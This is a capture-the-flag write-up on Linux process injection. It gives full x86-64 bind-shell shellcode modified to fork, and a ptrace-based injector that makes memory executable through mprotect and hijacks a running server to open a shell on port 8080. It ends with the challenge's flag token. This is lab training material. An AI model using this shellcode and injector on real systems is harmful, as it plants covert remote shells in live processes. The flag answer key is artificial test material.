






# Hack to the Future

## Question 3

*Receive this token by running and passing the grading check at `http://grader.mod.pccc`.*

### Analysis

From the challenge description, we know:
- SSH into `ubuntu.mod.pccc` with `user:password`
- Target process: `server` on port `8888`
- Inject **raw shellcode** (no shared libraries) to open a bind shell on port `8080`
- The server must remain functional after injection
- A grader at `http://grader.mod.pccc` will verify our work

This is a **Linux process injection** challenge. We need to inject shellcode into a running process using `ptrace`, without crashing it, and have it open a bind shell that the grader can connect to.

### Steps

1) SSH into the target and elevate to root (required for ptrace access):

```bash
ssh user@ubuntu.mod.pccc
# password: password
sudo bash
```



2) Verify the target process is running and understand the environment:

```bash
pgrep server
curl http://localhost:8888/welcome.txt
```

The server is running and serving content on port 8888. Our goal is to inject shellcode into this process that opens a bind shell on port 8080, while keeping the server functional on 8888.

3) There are many approaches to Linux process injection. The general strategy is:
   - Attach to the process via `ptrace`
   - Find or create a memory region with execute permissions
   - Write shellcode to that region
   - Redirect execution to our shellcode
   - Restore the original process state so it continues functioning

The key constraint is that we must use **raw shellcode only** (no shared library injection), and the server must still work afterward. This means our shellcode needs to `fork()` — the child handles the bind shell, while the parent returns to its original state.

4) Generate base shellcode using `msfvenom`:

```bash
msfvenom -p linux/x64/shell_bind_tcp LPORT=8080 -f c
```



The stock msfvenom payload calls `execve` to replace the process with `/bin/sh`, which would kill the server. We need to modify it to fork first: the child process runs the shell (dup2 + execve), while the parent hits an `int3` breakpoint so our injector can restore its original state.

Modified shellcode with fork logic and a trailing `int3`:

```c
unsigned char shellcode[] =
    "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"  // socket
    "\x52\xc7\x04\x24\x02\x00\x1f\x90\x48\x89\xe6\x6a\x10\x5a\x6a\x31\x58\x0f\x05" // bind (Port 8080)
    "\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f\x05\x48\x97"  // listen, accept
    // --- FORK Logic ---
    "\x48\x31\xd2\x6a\x39\x58\x0f\x05" // Fork
    "\x48\x85\xc0\x75\x26"             // TEST RAX, RAX; JNZ +38 (Jump to Parent Landing Pad)
    // --- CHILD LOGIC ---
    "\x6a\x02\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6" // Dup2
    "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05" // Execve
    // --- PARENT LANDING PAD ---
    // The JNZ jumps here. Place an INT3 (0xCC) here.
    "\xcc";
```

5) Gather information about the target process. We need the PID, the libc base address, and a writable memory region to make executable:

```bash
pgrep server
cat /proc/$(pgrep server)/maps
```



From the maps output, identify:
- **Target region** to make RWX and write shellcode to (an empty/unused region) — note both the start and end addresses
- **libc base address** — the first address of the `libc.so.6` mapping

6) Calculate the runtime addresses of `mprotect` and a `nopw` instruction in libc's `.plt.got` section (which we'll temporarily overwrite with `int3` as a breakpoint):

```bash
# Get mprotect offset within libc
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep mprotect

# Get nopw offset in .plt.got (guaranteed executable)
objdump -d -j .plt.got /usr/lib/x86_64-linux-gnu/libc.so.6
```



The runtime address of each is calculated as: `libc_base + offset`.

7) Now build the injector. The `inject.c` program in `solvers/` performs the full injection sequence:

   1. Attach to the server via `ptrace` and save its original registers
   2. Write an `int3` to a `nopw` in libc's `.plt.got` (as a return breakpoint)
   3. Set registers to call `mprotect` on the target region with RWX permissions, with the return address pointing to our `int3`
   4. Continue the process — `mprotect` executes, then hits the `int3` and stops
   5. Restore the original `nopw`, write shellcode to the now-executable region
   6. Set `rip` to the shellcode address and continue
   7. Shellcode runs: socket → bind → listen → accept → fork
   8. The parent process hits the final `int3` in the shellcode
   9. Restore original registers and detach — server resumes normal operation

Update the addresses in `inject.c` (lines 47-54) to match your process:

```c
int main(void) {
    // CHANGE THIS
    // setup pid and addresses
    pid_t pid = 7; // pid to inject into
    unsigned long long libc_addr = 0x77a83e52e000; // runtime addr of libc
    unsigned long long rwx_addr = 0x77a83e733000; // addr of target region to make rwx (start addr)
    unsigned long long rwx_len = 0x77a83e740000 - rwx_addr; // length of target region to make rwx (end - start)
    unsigned long long int3_addr = libc_addr + 0x283ea; // runtime addr of nop to inject int3
    unsigned long long mprot_addr = libc_addr + 0x125c40; // mprotect runtime addr
```

8) Compile and run the injector:

```bash
gcc -o inject inject.c
./inject
```



The injector will pause when the parent process hits the final `int3` in the shellcode. At this point, the bind shell is listening on port 8080 and the server is ready to be graded.

9) While the injector is paused, open `http://grader.mod.pccc` in a browser and click "Run Grader". The grader connects to port 8080 via `ncat`, verifies the shell is running inside the server process (correct PID/PPID), checks the server binary hash is unchanged, confirms no extra shared libraries were loaded, and verifies the server still responds on port 8888.



## Answer

The token for this objective is `PCCC{linux_process_injection-FINALS}`.
